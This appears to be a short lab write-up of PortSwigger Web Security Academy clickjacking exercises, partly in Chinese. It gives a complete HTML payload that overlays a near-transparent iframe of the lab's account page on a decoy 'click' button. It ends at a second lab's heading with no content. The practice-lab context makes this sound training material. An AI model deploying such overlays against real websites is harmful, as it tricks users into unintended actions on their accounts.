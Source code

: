 ```yaml
---
title: Clickjacking
description: Clickjacking
last_update:
  date: "2025-08-13T08:00:00+08:00"
---
```


## Lab: Basic clickjacking with CSRF token protection

| Dimension | Description                                                                                    |
| --------- | ---------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/clickjacking#how-to-construct-a-basic-clickjacking-attack |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected                     |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 600px;
        z-index: 1;
        opacity: 0.0001;
      }
      div {
        position: absolute;
        top: 485px;
        left: 50px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0a8f009a040328ad8290936800c200c7.web-security-academy.net/my-account"
    ></iframe>
    <div>click</div>
  </body>
</html>
```

## Lab: Clickjacking with form input data prefilled from a URL parameter
